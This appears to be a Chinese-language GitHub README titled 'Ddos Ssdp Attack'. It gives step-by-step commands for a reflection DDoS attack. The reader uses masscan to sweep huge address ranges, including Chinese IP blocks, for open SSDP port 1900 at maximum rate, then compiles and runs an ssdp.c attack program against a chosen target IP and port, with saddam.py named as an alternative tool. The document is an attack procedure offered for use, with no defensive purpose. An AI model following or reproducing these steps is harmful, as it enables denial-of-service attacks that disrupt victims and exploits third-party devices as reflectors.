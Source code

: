 # Ddos Ssdp Attack
> Use Masscan Scan Server

### 安装 Git
	yum install git

### 安装 Masscan
	git clone https://github.com/robertdavidgraham/masscan
	cd masscan
	make
	cd bin

### 扫描 Server
	# 安装会话
	yum install screen
	# 最高速扫描全网 SSDP 端口保存为 JSON
	screen ./masscan 0.0.0.0/4 -p1900 --rate 100000000 -oJ ip.json
	# 转换格式为单 IP 的 TXT
	python format.py ip.json ip.txt

> **扫描中国IP段方式**<br>
> screen ./masscan -iL ip/cn_ip.txt -p1900 --rate 100000000 -oJ ip.json

### 攻击 SSDP
	# 安装 C 编译环境
	yum -y install gcc
	# 编译攻击脚本
	gcc -pthread ssdp.c -o ssdp
	# SSDP 攻击
	./ssdp <target IP> <target port> <reflection file> <time (optional)>

> 攻击或使用功能更全的 saddam.py 攻击脚本
